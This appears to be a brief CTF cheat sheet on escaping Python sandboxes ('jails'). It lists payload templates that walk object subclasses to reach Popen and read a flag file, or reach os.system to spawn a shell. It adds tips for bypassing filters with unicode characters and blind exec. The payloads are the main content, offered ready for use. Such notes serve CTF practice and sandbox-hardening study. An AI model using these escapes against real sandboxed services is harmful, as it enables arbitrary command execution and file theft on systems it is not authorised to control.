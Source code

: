 [BACK](../README.md)

# Jail Escape

## Python

- Quick templates:
  - ().__class__.__bases__[0].__subclasses__()[INDEX_OF_POPEN](["/bin/cat","flag"], stdout=-1).communicate()
  - ().__class__.__bases__[0].__subclasses__()[INDEX_OF_os._wrap_close].__init__.__globals__['sys'].modules['os'].system('sh')
### Filters bypass

- Try using unicode chars instead of the ascii ones. 
- Can also try a "blind" exec with error messages giving us info 